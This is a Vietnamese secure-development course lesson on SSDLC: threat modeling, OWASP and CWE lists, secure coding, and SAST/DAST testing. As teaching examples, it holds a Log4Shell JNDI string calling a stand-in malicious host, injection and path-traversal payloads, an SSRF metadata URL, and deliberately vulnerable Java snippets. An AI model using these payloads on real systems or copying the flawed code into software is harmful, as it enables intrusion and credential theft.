# Bài 3–4 version 2: SSDLC – Quy trình Phát triển Phần mềm An toàn

---

## 1. CIA Triad – Nền tảng bảo mật

CIA là bộ ba nguyên tắc cốt lõi mà mọi hệ thống bảo mật phải đảm bảo:

| Thuộc tính | Tên đầy đủ | Ý nghĩa |
|---|---|---|
| **C** | Confidentiality – Bảo mật | Chỉ người được phép mới truy cập được dữ liệu |
| **I** | Integrity – Toàn vẹn | Dữ liệu không bị sửa đổi trái phép |
| **A** | Availability – Sẵn sàng | Hệ thống luôn hoạt động khi cần |

!!! note "Tại sao CIA quan trọng?"
    Mọi lỗ hổng bảo mật đều tấn công vào ít nhất một trong ba thuộc tính này. Ví dụ: SQL Injection vi phạm cả C và I; DoS vi phạm A; data leak vi phạm C.

---

## 2. Secure SDLC (SSDLC)

### 2.1 SDLC truyền thống vs SSDLC



SSDLC không phải một giai đoạn riêng biệt — nó **nhúng security vào từng phase** của SDLC thông thường.

### 2.2 Nguyên tắc Shifting Left

!!! tip "Shifting Left / Pushing Left"
    **Phát hiện lỗ hổng càng sớm → chi phí sửa càng thấp.**

    | Giai đoạn phát hiện | Chi phí tương đối |
    |---|---|
    | Requirements | $10 |
    | Design | $100 |
    | Code | $1,000 |
    | Testing | $10,000+ |
    | Production (Incident Response) | **Significantly more** |

    Đây là lý do mọi tổ chức nên đầu tư vào threat modeling và secure design thay vì chỉ pen-test cuối vòng đời.

---

## 3. Security Requirements

### 3.1 Các câu hỏi cần đặt ra khi thu thập Security Requirements

Trước khi thiết kế, team phải trả lời:

- Hệ thống có xử lý **PII (Personally Identifiable Information)** hay dữ liệu nhạy cảm không?
- Dữ liệu được **lưu trữ và truyền** như thế nào?
- Ứng dụng **public (internet)** hay **internal (intranet)**?
- Có tác vụ nhạy cảm không (chuyển tiền, mở khóa, vận chuyển thuốc)?
- Có cho phép **user upload file** không?
- Yêu cầu **uptime** là bao nhiêu?

### 3.2 Danh sách Security Requirements điển hình

!!! abstract "Security Requirements cơ bản"
    - **Encryption**: Mã hóa dữ liệu khi lưu trữ (at rest) và truyền tải (in transit)
    - **Never Trust System Input**: Không bao giờ tin dữ liệu đến từ bên ngoài
    - **Encoding & Escaping**: Output encode trước khi render ra UI
    - **Third-party Components**: Quét thường xuyên, cập nhật bản vá
    - **Security Headers**: HSTS, CSP, X-Frame-Options...
    - **Secure Cookies**: HttpOnly, Secure, SameSite flags
    - **Password Storage**: Hash + salt (bcrypt/argon2), dùng secret manager
    - **Backup & Rollback**: Có kế hoạch khôi phục khi sự cố
    - **Input Validation & Sanitization**: Validate phía server, không chỉ client
    - **Parameterized Queries**: Chống SQL Injection
    - **Least Privilege**: Tài khoản/service chỉ có quyền tối thiểu cần thiết
    - **Authentication & Authorization**: Multi-factor cho tài khoản quan trọng
    - **Errors & Logging**: Log tất cả lỗi liên quan security, fail safe

### 3.3 Ví dụ – Security Requirements cho Web Application

```
✅ Mã hóa dữ liệu khi lưu trữ và truyền tải (TLS 1.3+)
✅ Validate tất cả user input phía server
✅ Quét thư viện third-party định kỳ (OWASP Dependency Check)
✅ Hash + salt mật khẩu (bcrypt, Argon2id)
✅ MFA cho tài khoản admin/quan trọng
✅ Chỉ cho phép HTTPS, redirect toàn bộ HTTP → HTTPS
✅ Không hardcode secrets (API key, password) trong source code
✅ Không để thông tin nhạy cảm trong comment
✅ Log tất cả lỗi, đặc biệt security-related errors
✅ Catch exception đầy đủ → fail safe thay vì fail open
```

---

## 4. Secure Design

### 4.1 Design Flaw vs Security Bug

| | Design Flaw | Security Bug |
|---|---|---|
| **Định nghĩa** | Lỗi trong thiết kế kiến trúc/logic | Lỗi trong implementation/code |
| **Hậu quả** | User làm được điều vốn không được phép | User dùng app theo cách độc hại |
| **Ví dụ** | Không có rate limiting trên login endpoint | Buffer overflow trong xử lý input |
| **Biện pháp** | Security design concepts, threat modeling | Code review, security testing, training |

!!! warning "Design Flaw nguy hiểm hơn"
    Design flaw thường **không thể vá bằng một patch đơn giản** — phải thiết kế lại. Đây là lý do threat modeling ở giai đoạn design quan trọng hơn testing ở cuối.

### 4.2 Defense in Depth



Defense in Depth = **nhiều lớp bảo vệ độc lập**. Kẻ tấn công phải phá vỡ tất cả các lớp để đạt mục tiêu. Nếu một lớp thất bại, lớp tiếp theo vẫn bảo vệ.

### 4.3 Secure Design Concepts

!!! abstract "Các nguyên tắc Secure Design"

    **Protecting Sensitive Data**
    : Dữ liệu nhạy cảm phải được mã hóa cả at-rest và in-transit. Production data không được dùng trong dev/test — phải dùng data đã anonymized/masked.

    **Never Trust, Always Verify (Zero Trust)**
    : Không tin bất kỳ request nào dù từ internal network. Xác thực và authorize mọi access.

    **Backup and Rollback**
    : Hệ thống phải có khả năng khôi phục về trạng thái ổn định trước đó khi xảy ra sự cố.

    **Server-Side Security Validation**
    : Client-side validation chỉ là UX — mọi validation bảo mật phải thực hiện phía server.

    **Security Function Isolation**
    : Các module xử lý auth, crypto, secret phải được cô lập, không mix với business logic.

    **Application Partitioning**
    : Chia ứng dụng thành các phần nhỏ, tách biệt rõ ràng (microservices, separate layers).

    **Secret Management**
    : Secrets (API keys, DB credentials, private keys) không được hardcode — lưu trong Vault, AWS Secrets Manager, env variables... và rotate định kỳ.

    **Re-authentication for Transactions (chống CSRF)**
    : Các giao dịch quan trọng (transfer tiền, đổi email) phải yêu cầu xác thực lại.

### 4.4 OWASP Top 10 (2021)

| Rank | Tên | Ghi chú |
|---|---|---|
| A01 | Broken Access Control | ↑ từ #5 lên #1 |
| A02 | Cryptographic Failures | ↑ từ #3 |
| A03 | Injection | ↓ từ #1 |
| A04 | Insecure Design | **Mới hoàn toàn** |
| A05 | Security Misconfiguration | ↑ từ #6 |
| A06 | Vulnerable & Outdated Components | ↑ từ #9 |
| A07 | Identification & Authentication Failures | ↓ từ #2 |
| A08 | Software & Data Integrity Failures | **Mới** |
| A09 | Security Logging & Monitoring Failures | ↑ từ #10 |
| A10 | Server-Side Request Forgery (SSRF) | **Mới** |

### 4.5 Case Study: CVE-2021-44228 – Log4Shell

!!! danger "Log4Shell – Insecure Design điển hình"
    **CVE-2021-44228** trong thư viện Log4j (Java) là ví dụ kinh điển của Insecure Design.

    ```java
    String userInput = "${jndi:ldap://malicious-server.com/exploit}";
    logger.info("User input: " + userInput);
    // Log4j tự động resolve JNDI lookup → thực thi code từ remote server
    ```

    **Vấn đề**: Log4j được thiết kế để hỗ trợ JNDI lookup trong log message — một tính năng tiện lợi nhưng không ai nghĩ đến rủi ro security. Kẻ tấn công chỉ cần inject `${jndi:ldap://...}` vào bất kỳ input nào được log để **RCE (Remote Code Execution)**.

    **Bài học**: Tính năng "tiện lợi" nếu không được thiết kế với security mindset từ đầu có thể gây thảm họa toàn cầu.

### 4.6 OWASP SAMM

**Software Assurance Maturity Model (SAMM)** là framework mở để đánh giá và cải thiện chương trình bảo mật phần mềm của tổ chức, gồm 5 business function:



Mỗi function có các practice với maturity levels (1→3), giúp tổ chức xác định hiện đang ở đâu và cần cải thiện gì.

---

## 5. Threat Modeling – Mô hình hóa mối đe dọa

### 5.1 Tại sao cần Threat Modeling?

Thiết kế phần mềm thông thường tập trung vào "phần mềm cần làm gì" — không phải "phần mềm không nên làm gì". Threat modeling lấp đầy khoảng trống đó bằng cách nhìn hệ thống từ **góc độ kẻ tấn công (evil brainstorming)**.

### 5.2 Quy trình Threat Modeling



**Output của Threat Modeling:**
- Danh sách **Threats** (các concern đã xác nhận là thực tế)
- Danh sách **Risks** với mức độ: Cao / Trung bình / Thấp
- **Kế hoạch**: sửa / loại bỏ / tài liệu hóa / chấp nhận rủi ro

### 5.3 Các phương pháp Threat Modeling

#### STRIDE

Do Microsoft phát triển (Loren Kohnfelder & Praerit Garg, 1999):

| Chữ cái | Mối đe dọa | Ví dụ | Thuộc tính CIA bị vi phạm |
|---|---|---|---|
| **S** | Spoofing – Giả mạo | Dùng credentials của người khác | Authentication |
| **T** | Tampering – Giả mạo dữ liệu | Sửa request/response | Integrity |
| **R** | Repudiation – Thoái thác | Từ chối đã thực hiện hành động | Non-repudiation |
| **I** | Information Disclosure – Lộ thông tin | Data breach | Confidentiality |
| **D** | Denial of Service – Từ chối dịch vụ | DDoS | Availability |
| **E** | Elevation of Privilege – Leo thang đặc quyền | Từ user thường → admin | Authorization |

#### PASTA

**Process for Attack Simulation and Threat Analysis** — 7 bước:

1. Define Objectives (mục tiêu kinh doanh)
2. Define Technical Scope
3. Decompose Application (DFD, data flows)
4. Threat Analysis
5. Vulnerability & Weakness Analysis
6. Attack Modeling
7. Risk & Impact Analysis

Đặc điểm: tập trung vào **business risk**, không chỉ technical threats.

#### TRIKE

- Phương pháp mã nguồn mở, nhìn từ góc độ **quản lý rủi ro**
- Dùng **Data Flow Diagram (DFD)** mô phỏng luồng dữ liệu
- Mô hình CRUD: Create, Read, Update, Delete — ai được làm gì?
- Gán **risk value** cho từng threat, sau đó ưu tiên biện pháp kiểm soát theo risk value

#### VAST

**Visual, Agile, and Simple Threat** — thiết kế cho môi trường doanh nghiệp lớn:
- **Tự động hóa** threat modeling
- **Tích hợp** vào toàn bộ SDLC và DevOps tools
- **Cộng tác** đa bên: developer, architect, security team, executives

#### DREAD

Dùng để **scoring/rating** mức độ nghiêm trọng của threats:

| Tiêu chí | Câu hỏi |
|---|---|
| **D**amage | Tấn công thành công gây thiệt hại bao nhiêu? |
| **R**eproducibility | Tái hiện tấn công có dễ không? |
| **E**xploitability | Khai thác lỗ hổng có dễ không? |
| **A**ffected users | Bao nhiêu user bị ảnh hưởng? |
| **D**iscoverability | Kẻ tấn công có dễ tìm ra lỗ hổng không? |

Mỗi tiêu chí chấm 1–10, tổng điểm = mức độ ưu tiên xử lý.

#### OCTAVE

**Operationally Critical Threat, Asset, and Vulnerability Evaluation**:
- Xác định tài sản CNTT quan trọng
- Đánh giá threats đến CIA của các tài sản đó
- Xác định risk tolerance của tổ chức
- Ưu tiên và lên kế hoạch giảm thiểu

### 5.4 Công cụ Threat Modeling

| Công cụ | Đặc điểm |
|---|---|
| **Microsoft Threat Modeling Tool** | GUI, tích hợp STRIDE, tạo DFD, gợi ý mitigations tự động |
| **OWASP Threat Dragon** | Mã nguồn mở, tuân thủ Threat Modeling Manifesto |
| **Threagile** | Agile threat modeling bằng YAML file, tích hợp DevSecOps, report tự động |
| **ThreatModeler** | Commercial, enterprise-grade |
| **IriusRisk** | Tích hợp với JIRA, CI/CD |
| **SD Elements** | Requirements-driven security |

---

## 6. Secure Code – Lập trình an toàn

### 6.1 Lựa chọn Framework và Ngôn ngữ

!!! warning "Tiêu chí lựa chọn"
    - Chọn framework **đang được hỗ trợ tích cực** (còn trong vòng đời maintenance)
    - Ưu tiên **phiên bản mới nhất hoặc mới-thứ-hai** (tránh EOL)
    - Framework phải có **security features tích hợp** sẵn (CSRF protection, parameterized queries...)
    - **Loại bỏ ngay** framework không còn hỗ trợ, có lỗ hổng nghiêm trọng chưa được vá

### 6.2 Untrusted Data – Nguyên tắc xử lý input

Mọi dữ liệu đến từ bên ngoài (user input, API response, file upload...) đều phải coi là **không tin cậy**.



**Ứng dụng:**
- **Reflected XSS / URL Redirect**: Validate input + verify redirect URL trong approved list
- **SQL Injection**: Dùng parameterized queries / prepared statements
- **Stored XSS**: Output encode khi render dữ liệu từ DB ra UI

### 6.3 Các vấn đề Secure Code quan trọng

#### HTTP Methods
Disable mọi HTTP method không sử dụng. Nếu chỉ dùng GET/POST, thì PUT, DELETE, PATCH, TRACE... phải bị block ở WAF hoặc server config.

#### Identity Management
- Không tự xây authentication system từ đầu nếu có thể dùng giải pháp có sẵn (Active Directory, Keycloak...)
- Nếu cần custom: dùng **OAuth 2.0 / OpenID Connect**
- Không bao giờ implement crypto hay auth protocol tự chế

#### Authentication & Authorization
```
Authentication: "Bạn là ai?" → verify identity
Authorization:  "Bạn được làm gì?" → enforce permissions
```
Hai thứ này phải luôn làm phía server, không thể tin client.

#### Session Management
- Session ID phải đủ entropy (128+ bits)
- Regenerate session ID sau khi login (chống session fixation)
- Session timeout hợp lý
- Invalidate session khi logout hoàn toàn phía server

#### Bounds Checking
- Với C/C++: luôn kiểm tra buffer size trước khi write
- Với bất kỳ ngôn ngữ nào: validate array index, string length trước khi thao tác

#### Error Handling, Logging & Monitoring
- **Fail safe**: khi lỗi xảy ra → từ chối truy cập, không phải cho phép
- **Không expose stack trace** ra ngoài (information disclosure)
- Log đủ thông tin để audit: timestamp, user, action, result
- Alert cho SIEM khi phát hiện anomaly

### 6.4 CWE Top 25 (2022) – Các lỗi phổ biến nhất

| Rank | CWE | Tên | Ví dụ |
|---|---|---|---|
| 1 | CWE-787 | Out-of-bounds Write | Buffer overflow ghi ngoài vùng nhớ |
| 2 | CWE-79 | Cross-site Scripting | Inject JS vào trang web |
| 3 | CWE-89 | SQL Injection | `' OR 1=1 --` |
| 4 | CWE-20 | Improper Input Validation | Không validate file extension |
| 5 | CWE-125 | Out-of-bounds Read | Đọc ngoài buffer → lộ memory |
| 6 | CWE-78 | OS Command Injection | `; rm -rf /` trong input |
| 7 | CWE-416 | Use After Free | Dùng pointer sau khi free |
| 8 | CWE-22 | Path Traversal | `../../etc/passwd` |
| 9 | CWE-352 | CSRF | Request giả mạo từ site khác |
| 10 | CWE-434 | Unrestricted File Upload | Upload .php shell |
| 15 | CWE-798 | Hard-coded Credentials | `password = "admin123"` |
| 22 | CWE-362 | Race Condition | TOCTOU attacks |

### 6.5 Secure Coding Baselines

!!! info "Định nghĩa"
    **Secure coding baseline** = tập yêu cầu tối thiểu về code security mà mọi project phải đáp ứng trước khi release. Không đạt baseline → không được deploy.

**Ví dụ baseline rule (Java):**

```java
// ❌ VULNERABLE - Dùng Random cho security-sensitive context
Random rnd = new Random();
String sessionId = String.valueOf(rnd.nextLong());

// ✅ SECURE - Dùng SecureRandom
SecureRandom rnd = new SecureRandom();
byte[] bytes = new byte[16];
rnd.nextBytes(bytes);
String sessionId = Base64.getEncoder().encodeToString(bytes);
```

`java.util.Random` dùng thuật toán linear congruential — có thể predict được output. `java.security.SecureRandom` dùng CSPRNG (Cryptographically Secure Pseudo-Random Number Generator).

### 6.6 Secure Coding Standards & Resources

| Tài nguyên | Đối tượng |
|---|---|
| SEI CERT C++ Coding Standard | C/C++ developers |
| SEI CERT Oracle Coding Standard for Java | Java developers |
| OWASP Secure Coding Checklist | Mọi ngôn ngữ |
| Find Security Bugs | Java (SpotBugs plugin) |
| OWASP SKF (Security Knowledge Framework) | Python-Flask |
| Android Secure Coding Guidebook | Android developers |

**OWASP Secure Coding Checklist bao gồm:**
Input Validation · Output Encoding · Authentication & Password Management · Session Management · Access Control · Cryptographic Practices · Error Handling & Logging · Data Protection · Communication Security · System Configuration · Database Security · File Management · Memory Management

---

## 7. Phân tích mã nguồn: SAST vs DAST

### 7.1 So sánh

| | SAST | DAST |
|---|---|---|
| **Viết tắt** | Static Application Security Testing | Dynamic Application Security Testing |
| **Khi nào chạy** | Trên source code, không cần chạy app | Khi app đang chạy (runtime) |
| **Ưu điểm** | Phát hiện sớm, tích hợp IDE, bao phủ 100% code | Tìm được issues chỉ manifest khi runtime |
| **Nhược điểm** | False positive cao, không thấy runtime behavior | Chỉ test được code path đã execute |
| **Công cụ** | SonarQube, SpotBugs, Semgrep, Bandit | OWASP ZAP, Burp Suite |

### 7.2 Công cụ SAST phổ biến

| Công cụ | Ngôn ngữ | Đặc điểm |
|---|---|---|
| **SonarQube** | 27+ ngôn ngữ | Tích hợp CI/CD, dashboard, taint analysis |
| **SpotBugs + Find Security Bugs** | Java | 138+ bug patterns, Eclipse/IntelliJ plugin |
| **Bandit** | Python | CLI, cấu hình rule linh hoạt |
| **Semgrep** | Đa ngôn ngữ | Rule tùy chỉnh bằng YAML, nhanh |
| **Flawfinder** | C/C++ | Lightweight, CLI |
| **ESLint** | JavaScript | Secure coding rules tích hợp |
| **Clang Static Analyzer** | C/C++/ObjC | Standalone, sâu |
| **MobSF** | Android/iOS | APK analysis tự động |
| **OWASP Dependency Check** | Đa ngôn ngữ | Quét CVE trong dependencies |

### 7.3 Khi nào dùng SAST trong CI/CD



**2 cách tích hợp:**
1. **IDE Plugin**: Feedback real-time khi code, giống spell-check
2. **Daily/CI scan**: Chạy tự động, tạo báo cáo, block deploy nếu critical issue

### 7.4 Tiêu chí chọn công cụ SAST

| Tiêu chí | Giải thích |
|---|---|
| **Dễ sử dụng** | Developer dùng được, không cần security expert |
| **Chi phí** | Commercial vs Open Source |
| **Hỗ trợ ngôn ngữ** | Phải cover ngôn ngữ trong dự án |
| **False Positive Rate** | Thấp = developer không bị "alert fatigue" |
| **Detection Rate** | Đánh giá bằng vulnerable project đã biết (WebGoat, NIST SARD...) |
| **Cập nhật rules** | Phải được update với CVE mới |

---

## 8. Các lỗi thường gặp (Common Pitfalls)

### 8.1 CSRF – Cross-Site Request Forgery



**Phòng tránh:**
- **CSRF Token**: Token ngẫu nhiên trong form, verify phía server
- **SameSite Cookie**: `SameSite=Strict` hoặc `Lax`
- **Re-authentication** cho giao dịch quan trọng

### 8.2 SSRF – Server-Side Request Forgery



**Ví dụ**: App cho phép fetch URL từ user input. Attacker gửi `http://169.254.169.254/latest/meta-data/` → lấy AWS instance metadata, credentials.

**Phòng tránh:**
- Whitelist các domain được phép fetch
- Disable unnecessary URL schemes (file://, gopher://)
- Network segmentation

### 8.3 Insecure Deserialization

```
Serialization:   Object → Bytes (để lưu/truyền)
Deserialization: Bytes → Object (để dùng lại)
```

**Vấn đề**: Nếu attacker kiểm soát được dữ liệu serialized (cookie, request body...) và app deserialize mù quáng → **RCE, privilege escalation**.

**Ví dụ (Java):**
```java
// ❌ VULNERABLE
ObjectInputStream ois = new ObjectInputStream(request.getInputStream());
Object obj = ois.readObject(); // Deserialize trực tiếp từ user input!

// ✅ SAFER - Validate type trước
ObjectInputStream ois = new ObjectInputStream(request.getInputStream());
Object obj = ois.readObject();
if (!(obj instanceof ExpectedClass)) {
    throw new SecurityException("Unexpected type");
}
```

**Phòng tránh tốt nhất**: Dùng JSON/XML thay vì native serialization khi có thể. Nếu phải dùng: chỉ deserialize từ nguồn tin cậy, validate type.

### 8.4 Race Condition

Xảy ra khi hai tiến trình/thread cùng truy cập shared resource mà không có synchronization đúng.

**Ví dụ kinh điển – TOCTOU (Time-of-Check to Time-of-Use):**

```c
// Thread A:
if (balance >= 100) {       // Check: balance = 200 ✓
    // ← Thread B chen vào ở đây và rút 150
    balance -= 100;         // Use: balance = 200 - 100 = 100 (sai! phải là 50)
}

// Kết quả: overdraft!
```

**Phòng tránh**: Mutex/lock, atomic operations, optimistic locking với version check trong DB.

---

## 9. Secure Testing & Deployment

### 9.1 Các loại kiểm thử an toàn



### 9.2 White Box vs Black Box Testing

| | White Box | Black Box |
|---|---|---|
| **Kiến thức về hệ thống** | Đầy đủ (code, architecture) | Không có |
| **Người thực hiện** | Developer, internal security | External penetration tester |
| **Phương pháp** | Trace code path, unit test security | Fuzz, brute force, probe |
| **Ưu điểm** | Bao phủ đầy đủ, phát hiện logic flaw | Góc nhìn thực tế của attacker |

### 9.3 Security Testing trong SDLC

| Giai đoạn | Hoạt động Security Testing |
|---|---|
| Requirements | Security requirements review |
| Design | Threat modeling, security architecture review |
| Coding | SAST, code review, unit testing với security cases |
| Integration Testing | DAST, vulnerability scanning |
| System Testing | Pen testing, black box |
| Release | Final security sign-off |
| Maintenance | Continuous monitoring, patch management |

### 9.4 Phạm vi kiểm thử

- Kiểm thử mã nguồn (source code)
- Kiểm thử ứng dụng (application layer)
- Kiểm thử hạ tầng (infrastructure/OS/container)
- Kiểm thử cơ sở dữ liệu
- Kiểm thử API và Web Services
- Kiểm thử tích hợp
- Kiểm thử mạng

---

## 10. SSDF – Secure Software Development Framework

**NIST SP 800-218** — framework để giảm thiểu rủi ro lỗ hổng phần mềm, gồm 4 nhóm practice:



### PO – Prepare the Organization
- Định nghĩa security requirements rõ ràng cho toàn tổ chức, update ít nhất hàng năm
